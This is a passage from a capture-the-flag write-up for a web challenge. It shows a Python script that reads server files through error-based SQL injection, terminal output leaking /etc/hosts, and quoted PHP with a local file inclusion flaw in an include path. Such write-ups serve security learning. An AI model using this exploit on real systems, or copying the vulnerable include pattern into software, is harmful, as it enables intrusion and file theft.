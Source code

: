 ```python
        'wog_cookie': '2',
        'wog_bbs_id': '1',
        'wog_cookie_debug': '22b53148583068af1f18ac2c126443f0'
    }

    errorMessage = b'mysql error: XPATH syntax error: \''
    response = requests.post(FULL_URI, data=data, cookies=cookie, stream=True)
    responseText = response.raw.read()

    print(f'[*] Trying file {filename.decode()}', end='\r')
    if errorMessage in responseText:
        print(f'\n[+] {filename.decode()} exist!')

if __name__ == '__main__':
    BASE_URI = 'http://chall-us.pwnable.hk:8765/'
    PHP_FILE = 'wog_act.php'
    FULL_URI = BASE_URI + PHP_FILE

    # for pid in range(1, 10000):
    #     filename = f'/proc/{pid}/cmdline'.encode()
    #     checkFile(filename)

    filename = b'<file_name_here>'
    for position in range(1, 100000, 31):
        isSuccess = exploit(filename, position)
        if isSuccess:
            print(leakedContent)
```

**Leaking `/etc/hosts` file:**
```shell
┌[siunam♥Mercury]-(~/ctf/Bauhinia-CTF-2023/Web/Isekai-Tensei-Hakka)-[2023.08.21|11:38:57(HKT)]
└> python3 leak_files.py
# Kubernetes-managed hosts file
host ip6-localhost ip6-loopback
42.0.83	chal20-isekai-tensei-ha
42.0.83	chal20-isekai-tensei-hakka-2.chal20.default.svc.cluste
42.0.83	chal20-isekai-tensei-hakka-2.chal20.default.svc.cluster.local	chal20-isekai-tensei-ha
```

But, I tried to guess where the flag is, like it is in environment variable and more. Unfortunately, no luck at all.

Then, I realized that this challenge should be finding an **RCE** (Remote Code Execution) vulnerability, and gain access to the challenge's instance. So, I started to look for other vulnerabilities.

> Note: I also tried to write arbitrary files via the SQL injection, but failed.

**In `/wog_act.php`, I also found somewhat LFI (Local File Inclusion) vulnerability:**
```php
<?
[...]
switch ($_POST["f"])
{
    [...]
    case "mission":
        [...]
        switch ($_POST["act"])
		{
    		[...]
    		case "end":
				include("./class/wog_item_tool.php");
				include("./class/wog_mission_tool.php");
				include("./mission/wog_mission_".$_POST["temp_id"].".php");
				$wog_item_tool= new wog_item_tool;
				$wog_mission_tool= new wog_mission_tool;
```